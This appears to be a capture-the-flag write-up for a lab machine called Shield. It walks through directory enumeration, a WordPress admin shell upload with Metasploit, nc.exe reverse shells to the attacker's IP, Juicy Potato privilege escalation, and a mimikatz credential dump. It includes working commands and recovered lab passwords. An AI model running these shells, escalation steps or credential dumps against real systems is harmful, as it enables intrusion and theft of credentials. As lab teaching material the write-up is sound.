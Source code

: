 # Shield

## You know the viiiibe 

So you guessed it --> *NMAP*  
And we have the port 80/3306 and everything seems to be a Windows env with a IIS Server !
The webpage is the IIS default so nothing really interesting, let's directly deep down.

## Like looking for a needle in a HayStack

Let's use a basic dictionnary provided by [Dirb](https://github.com/v0re/dirb). Under /usr/share/wordlists/dirb, let's use common.txt  
Let's use a pretty well known tool called [Gobuster](https://github.com/OJ/gobuster)
`gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt`  
And this command allow us to get some interesting information about the file we can found in the server !!

```bash
===============================================================
2020/09/20 11:23:42 Starting gobuster
===============================================================
/wordpress (Status: 301)
===============================================================
2020/09/20 11:23:54 Finished
===============================================================
```

Perfect let's investigate

## Let's go to WordPress  

As we excepted there is a page at *10.10.10.29/wordpress* and like every wordpress we just have to go to */wordpress/wp-login.php* to get the login page.  
And we already have the password from the **VaccineBox** so let's type in : "P@s5w0rd!" (login:admin)  
As WordPress as a lot of well known issues we're gonna use the most complete tool : **METASPLOIT** *hype increase*  
For this we will us a [Meterpreter](/article/info/Meterpreter.md) ! I will soon make a full article on this so keep an eye on it to get more informations !!  

```bash
 msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

```

The doc of MetaSploit is really complete so just have a look for more information!!  
Now that we're in our Meterpreter let's go somewhere with RightAccess, like Uploads under wp-content of cours !!  
Now let's get a Reverse Shell that will be triggered in a Windows env!  
Let's use [nc.exe](https://github.com/int0x33/nc.exe), upload it to the upload and then trigger a listener in another shell.
And execute our nc.exe `execute -f nc.exe -a "-e cmd.exe 10.10.14.2 1234"`  
Ok now i have a cmd!!

## Exploiting the Open Window

Let's use [Juicy Potato](https://github.com/ohpe/juicy-potato) to get privileges !!
So just download the .exe on the gh and upload it too !
Let's rename to pwn.exe (Windows Defender is around !!) and then upload it too
Now that it is uploaded we want it to execute a powershell with admin rights
`START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe MY IP 1111`
Create a file with .bat extension and upload it too !
Now make a new shell listen to 1111 !!

And then from the shell who's listening at 1234 (the cmd one!)
You'll start our pwn.exe !!  
`pwn.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337`
And in the 1111 shell we've a new powershell !! Perfect !!!
Let's quickly do a `whoami` and boom Administrator  !!
Let's go to `C:\Users\Administrator\Desktop\root.txt` and the password is  `**CENSORED**`

## So much things to do, don't leave now !  

A tool called [mimikatz](https://github.com/gentilkiwi/mimikatz) (THE DEVS ARE FRENCH COCORICO MES AMIS)
That allow us to discover lots of differents things such as User, Hashes, PIN, kerberos tickets and that's cool!
From thoses tickets we can get passwords !!

Let's download the zip and upload it on the server, with our admin account start the app and launch the command `sekurlsa::logonpasswords` and boom, too much data.

But in the middle of allll this there is one bit ! really cool one !
And that's a user called "sandra" with the password "Password1234!"
